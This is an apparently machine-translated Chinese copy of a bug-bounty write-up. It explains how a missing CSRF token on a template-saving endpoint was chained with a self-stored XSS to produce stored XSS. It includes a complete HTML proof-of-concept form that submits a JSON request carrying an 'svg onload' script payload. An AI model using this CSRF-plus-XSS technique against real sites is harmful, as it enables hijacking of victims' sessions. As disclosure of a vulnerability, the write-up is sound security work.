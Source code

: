 # CSRF 的攻击会导致储存 XSS

> 原文：<https://infosecwriteups.com/csrf-attack-can-lead-to-stored-xss-f40ba91f1e4f?source=collection_archive---------0----------------------->

![](img/283a5f0c308c3585e2ab93f05c21f10d.png)

嘿，伙计们，我又在这里写了一篇关于 CSRF 和 XSS 的文章

首先，几天前我测试了一个网站，姑且称之为`example.com`，我在这个网站上发现了一个包含一些功能的子域，于是我开始测试它，我在一个允许 HTML 标签的描述字段上发现了一个自存储的 XSS，我发现了一个 CSRF 攻击来添加 XSS 的有效载荷，但是有一个问题，我应该得到模板 ID 来编辑它，我不能在我离开的时候暴力破解它 独自一人，现在当我返回测试时，我打开我的打嗝并捕捉请求，我发现一个有趣的请求，我将其发送到`Repeater`并再次发送，我发现一个新的模板添加到我的模板列表中，哇，这很好，我扫描了请求，我没有发现任何 CSRF 保护

请求中很酷的东西包括模板 ID，我可以用它在模板字段上添加一些内容。这次我想起了自存储 XSS 的旧错误，所以我试图利用这两个错误一起得到存储 XSS。我创建了一个 HTML 文件作为 POC。这是代码

```
<form action="[https://subdomain.example.com/endpoint](https://subdomain.website.com/endpoint)" method="POST">
  <input type="text" name="svcid" value="WRKSPC_LAYER_SERVICE"><br>
  <input type="text" name="stok" value=""><br>
  <input type="text" name="v" value="0"><br>
  <input type="text" name="clientType" value=""><br>
  <input type="text" name="request" value='{"basePage":{"draftIds":["1514844016810"],"wsId":"-1","wsType":"-1"},"fields":{"title":"CSRF_1","bold":"false"},"fields":{"description":"<font rwr=\"1\" style=\"font-family:Arial\" size=\"4\"><br>\"&gt;<svg onload=\"alert(cookie)\">\n</svg></font>","rteMode":"0"},"mode":"INDIVIDUAL","action":"SAVE","layerName":"EDITPANE","variation":null,"currencyInfo":{"currencySymbolLeft":true,"singularName":"U.S. dollars","moneySymbol":"$","decimalSymbol":".","groupingSymbol":",","gS":",","decimalPlaces":"2","currencyCode":"USD","pluralName":"U.S. dollar"},"singleList":true,"listingMode":"AddItem","updateRequired":true,"customFields":{},"byPassUpdate":false,"sellerType":"C2C","saveUlsi":true,"edpCrNew":false,"deletedFields":[],"customAttributes":{"PL_SELLER_ELIGIBLE":"1","PL_FORMAT_ELIGIBLE":"1","PL_CATEGORY_ELIGIBLE":"1","PL_ALREADY_OPTED":"0"},"draftMode":"Listing","restricted":false,"customPreference":{"preferences":{"scheduleStartTime":true,"reservePrice":true,"sellAsLot":true,"privateListing":true,"salesTax":true},"sellerDetails":["BUSINESS_POLICY","NO_STORE_SUBSCRIPTION","NO_SHIPPING_DISCOUNTS","NON_SM_SELLER"]},"payments20":false,"templateId":5553489011,"isvShown":false}'><br>
  <input type="submit" value="send">
</form>
```

这段代码将发送一个编辑 id 为`1514844016810`的模板的请求，所以服务器不会找到具有该 id 的模板，所以他将创建它并添加新值，该值是添加到描述中的 XSS 有效载荷，当受害者访问他的模板列表时，他将找到一个新的，所以他将打开它，然后 XSS 有效载荷将被执行，我是:

我希望你们喜欢它，伙计们，再见，再见。